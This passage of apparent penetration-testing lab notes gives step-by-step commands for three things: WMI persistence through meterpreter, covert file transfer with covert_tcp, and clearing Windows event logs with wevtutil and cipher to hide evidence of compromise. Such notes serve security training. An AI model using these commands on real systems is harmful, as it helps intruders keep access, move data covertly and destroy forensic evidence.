 #### 3.10 Priv Esc with WMI and maintain persistence
WMI event subscriptions can trigger code execution. Attackers use scripts for persistence.

**Steps**:
1. Upload `WMI-Persistence.ps1` script and payload.
2. In meterpreter:
  - `load powershell`
  - `powershell_shell`
3. Run script:
  - `Import-Module ./WMI-Persistence.ps1`
  - `install-Persistence -Trigger Startup -Payload "C:\users\administrators\downloads\exploit.exe"`

#### 3.11 Covert channels using covert_TCP
Covert_TCP manipulates TCP/IP headers to bypass firewalls and IDS/IPS.

**Steps**:
1. Download source:
  - wget https://raw.githubusercontent.com/cudeso/security-tools/master/networktools/covert/covert_tcp.c
2. Compile:
  - `sudo apt install gcc`
  - `cc -o covert_tcp covert_tcp.c`
3. On receiver:
  - `sudo ./covert_tcp -dest 192.168.18.144 -source 192.168.18.95 -source_port 8888 -dest_port 9999 -server -file /home/user/msg1.txt`
4. On sender:
  - `sudo ./covert_tcp -dest 192.168.18.144 -source 192.168.18.95 -source_port 9999 -dest_port 8888 -file /home/kali/msg.txt`

**Result**: Hidden data transmission over TCP headers.

---

### 4. Clear Logs to Hide the Evidence of Compromise
To remain undetected, intruders erase all evidence of security compromise from the system.

#### 4.1 Clear Windows Machine Logs using Various Utilities
The system log file contains events that are logged by OS components. These may include device changes, drivers, system changes, operations, and other events.

Utilities to clear logs include `Clear_Event_Viewer_Logs.bat`, `wevtutil`, and `cipher`.

**Clear_Event_Viewer_Logs.bat**  
Run as administrator. It deletes security, system, and application logs on the target system.

#### wevtutil
- `el | enum-logs` → lists log names  
- `wevtutil cl [log_name]` → clears a specific log (e.g., system, application, security)

#### Cipher.exe
- `cipher /w:[Drive or Folder or File Location]`
- Overwrites deleted files with 0s, 255s, and random numbers  
- Prevents recovery of deleted data  
- Useful to erase backup files created during encryption  
